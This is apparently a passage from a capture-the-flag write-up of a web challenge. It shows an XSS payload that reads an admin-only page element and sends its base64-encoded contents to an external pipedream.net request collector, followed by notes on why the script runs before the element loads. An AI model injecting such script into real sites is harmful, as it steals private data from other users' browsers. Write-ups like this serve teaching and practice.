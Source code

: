 


![cbd33f8ed6cadb0ef05938ddba44c472.png](/assets/images/a43e417593714d769c28a2d770ac52be.png)


The cookie is nothing but a hint to **check the admin console**. At first I thought I need to capture everything that are being printed into the Developer Console Window, but then I noticed that inside the page's HTML, there is a `div` tag with `admin_console` class. So that should be the next step.


![b0351fa2cd51917317a4043f31404222.png](/assets/images/e1eae92ed80340b2823f406684f21d26.png)


Then I tried to smuggle the content of the `admin_console` tag from the admin (since they said "only the admin can see it"). I modified and submitted this payload for that purpose:

```
<script>
	var req = new XMLHttpRequest();
	var target = document.getElementsByClassName('admin_console')[0];
	console.log(target.innerHTML);
	req.open('GET', 'https://enit8s845uv8.x.pipedream.net/?content=' + btoa(target.innerHTML));
	req.send();
</script>

```

But that shouldn't be working becase document.getElements* functions return a *live collection* ([explanation here](https://stackoverflow.com/a/33681728)). So while the page is still loading, my payload is already being executed, hence there might be no tag with class named `admin_console` yet. That's why I need to make sure that the page is loaded before trying to access the innerHTML of the `admin_console` tag.
